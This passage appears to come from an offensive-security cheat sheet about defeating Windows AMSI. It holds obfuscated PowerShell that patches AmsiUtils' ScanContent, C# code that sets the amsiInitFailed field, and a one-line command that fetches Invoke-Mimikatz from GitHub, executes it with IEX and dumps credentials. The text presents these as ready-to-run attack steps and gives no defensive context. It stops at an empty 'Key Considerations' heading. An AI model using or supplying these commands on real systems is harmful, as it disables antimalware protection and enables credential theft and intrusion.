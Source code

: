 or this also works

```powershell
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
#[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($t.MethodHandle)  
#[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($o.MethodHandle)
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
```

then run

```powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```


**C# Example:**

```csharp
using System;
using System.Reflection;

public class AmsiBypass
{
    public static void Main(string[] args)
    {
        try
        {
            // Get the AmsiUtils type
            Type amsiUtilsType = typeof(System.Management.Automation.AmsiUtils);

            // Get the amsiInitFailed field
            FieldInfo amsiInitFailedField = amsiUtilsType.GetField("amsiInitFailed", BindingFlags.NonPublic | BindingFlags.Static);

            // Set the amsiInitFailed field to true
            if (amsiInitFailedField != null)
            {
                amsiInitFailedField.SetValue(null, true);
                Console.WriteLine("AMSI bypassed.");
            }
            else
            {
                Console.WriteLine("amsiInitFailed field not found.");
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine($"Error: {ex.Message}");
        }
    }
}
```
## Key Considerations:
